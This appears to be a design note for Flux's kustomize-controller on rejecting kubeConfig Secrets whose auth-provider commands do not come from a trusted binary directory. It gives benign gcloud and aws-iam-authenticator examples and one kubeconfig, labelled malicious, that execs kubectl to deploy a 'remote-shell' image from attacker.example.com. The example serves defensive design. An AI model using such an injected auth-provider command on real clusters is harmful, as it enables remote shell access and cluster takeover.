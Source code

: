 
#### rejecting kubeConfigs
Given a Kustomzation that references a kubeConfig Secret:

```yaml
kind: Kustomization
spec:
  kubecConfig:
    secretRef:
      name: stage-cluster-kubeconfig
```

The following kubeConfigs will only be used to create a client if `gcloud` or `aws-iam-authenticator` comes from `/kubeconfig-bin/` within the kustomize-controller fs.
Otherwise it's rejected and an error is posted to the Kustomization status.
```yaml
kind: Secret
metadata:
  name: stage-cluster-kubeconfig
value: |
  users:
  - name: gke-example
    user:
      auth-provider:
        name: gcp
        config:
          cmd-args: config config-helper --format=json
          cmd-path: gcloud
          expiry-key: '{.credential.token_expiry}'
          token-key: '{.credential.access_token}'
```
```yaml
kind: Secret
metadata:
  name: dev-cluster-kubeconfig
value: |
  users:
  - name: aws-example
    user:
      auth-provider:
        exec:
          apiVersion: client.authentication.k8s.io/v1alpha1
          args: [token, -i, cluster-name]
          command: aws-iam-authenticator
          env: {name: AWS_<redacted>}
```

This dangerous kubeConfig will likely be rejected unless the flux-system admin permits `kubectl` to be exec'd for an auth provider in `/kubeconfig-bin/`:
```yaml
kind: Secret
metadata:
  name: malicious-kubectl-kubeconfig
value: |
  users:
  - name: gke-example
    user:
      auth-provider:
        name: gcp
        config:
          cmd-path: kubectl
          cmd-args: create deploy debug --image attacker.example.com/remote-shell
          expiry-key: '{.credential.token_expiry}'
          token-key: '{.credential.access_token}'
```
